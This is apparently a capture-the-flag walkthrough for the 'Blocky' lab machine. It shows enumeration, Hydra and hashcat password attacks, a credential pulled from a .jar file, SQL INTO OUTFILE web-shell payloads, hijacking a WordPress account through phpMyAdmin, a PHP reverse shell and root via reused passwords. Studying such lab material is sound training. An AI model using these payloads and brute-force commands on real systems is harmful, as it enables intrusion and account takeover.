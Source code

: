 # Solution

Start with a nmap scan as usual
```
nmap -sC -sV -oN nmap-initial 10.10.10.37
```

We have a wordpress website. We use wpscan to enumerate.  
We run gobuster in background to scan for directories.  
We go in the wordpress login page and try to enumerate the users using hydra. While the enumeration is running, we focus on other services.  
```
hydra -L /usr/share/wordlists/rockyou.txt -p password 10.10.10.37 -v http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&redirect_to=http%3A%2F%2F10.10.10.37%2Fwp-admin%2F&wp-submit=Log In&testcookie=1:invalid username'
```
---
We focus the attention on the profptd service. Version 1.3.5 has vulnerabilities, it allows unauthenticated users to use SITE CPFR and SITE CPTO. Metasploit offers exploit to it as well as Exploit DB. First we try to see if it is actually vulnerable:
```
ftp 10.10.10.37
```
We log in with random credentials.  
Surprisingly when we try to use the CPFR command we are required to be authenticated.
```
ftp> site cpfr /etc/passwd
530 Please login with USER and PASS
```
Therefore it seems that it is not vulnerable.  

---
We switch our focus on the webserver.  Hydra hasn't found anything interesting. 

Run nikto
```
nikto -host 10.10.10.37 -output nikto.txt
```

We run gobuster and we find some directories:
```
/wiki (Status: 301)
/wp-content (Status: 301)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

We browse some of them. In plugins we find 2 .jar archives. We download them and we focus on BlockyCore.jar.
We extract it and we find a .class file. We can see the human readable characters in the .class file:
```
> strings BlockyCore.class
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```
We have an interesting hex string: 8YsqfCTnvxAUeduzjNSXe22.  
We try to use it in the ssh login with the root user but it doesn't work. We try in the wordpress login page but it doesn't work as well.  
We try in the phpmyadmin page with root username and it works. We are inside the phpmyadmin panel.

Now we want to get access to the underlying OS. We first try using SQL by uploading a file with a backdoor.
```
SELECT '<?php system($_GET["cmd"]);?>' into outfile "/var/www/shell.php";
```
However we get this error
```
The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```
which means that cannot write to that location. We want to figure out if we have write access on some directories. We can do this by looking at the value of the option "secure_file_priv"
```
SHOW VARIABLES LIKE "secure_file_priv" 
```
The value returned is /var/lib/mysql-files/ . Therefore we know that we can write to the directory /var/lib/mysql-files/.   
We change the command to inject in the file since the file will not be visible in the web browser. We run the following test to see if we can potentially inject a backdoor (10.10.14.25 is the address of my local machine):  
```
SELECT 'ping -c 1 10.10.14.25' into outfile "/var/lib/mysql-files/ping.sh"
```
We will use the LOAD DATA INFILE command to try to execute the script.  
We can set up tcpdump locally and check whether the ping is working.
```
tcpdump -i tun0 'icmp or icmp6'
```

Now we can try to start the ping.
```
LOAD DATA INFILE('/var/lib/mysql-files/ping.sh')
```
We don't receive answer.  
I try another way. From phpmyadmin we can see that one of the user is 'notch'. We also have the hash of his password. In background we set up the password bruteforce using wpscan:
```
wpscan --url http://10.10.10.37 -U notch -P /usr/share/wordlists/rockyou.txt
```

And we also look for the hash crack. The hash is
```
$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
We can use hashcat to crack it. The hash is a portable php hash. We have to find the right mode in hashcat. We can do it in the following way:
```
>hashcat --example-hashes | grep -A 2 -B 2 php

MODE: 400
TYPE: phpass
HASH: $P$946647711V1klyitUYhtB8Yw5DMA/w.
PASS: hashcat
```
We see hat the hash format actually matches. We now know that the mode is 400.  
We can proceed to crack it. We go for 
```
hashcat -m 400 -a 0 hash.txt  /usr/share/wordlists/rockyou.txt
```
Meanwhile we can try to change the password with a hash generated by us and see if we can actually log in ( we leave hashcat working, hoping that the we can retrieve the notch ssh password once the hash got cracked).  
We take the string "ciao" and we hash it using portable php hash and we get the hash :
```
$P$BthUuP2pHNnXtMpSjXC2PkhuraA1/J/
```
Now we can go in phpmyadmin and change the password for the user 'notch'. Then we can go in the login page of wordpress and try to login using username 'notch' and password 'ciao'.  
It works, we can enter the wordpress portal.  

We want to execute php from wordpress. We install the plugin PHP code snippet. Thanks to that we can add php to our pages. We can get a shell by uploading the pentestmonkey reverse PHP shell.  
We have now a shell, it runs under the user www-data.  
We import a bash shell with python:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We transfer and run LinPeas and LinEnum, execute them and study the results to find a way to escalate the privileges.  

---

Looking back at hashcat, we couldn't crack the hash. We try again to SSH into the box using root and 8YsqfCTnvxAUeduzjNSXe22, doubtfull whether We've already tried it or not (Yes we did). This time we also tried with the notch user and the same password. We had no expectations but it actually worked ... We could have solved the box at least some hours before... 

We thus get the user flag. Final step is retrieving the root flag by escalating the privileges.  
This is easy done by logging in as root (sudo -i) with the notch user password.

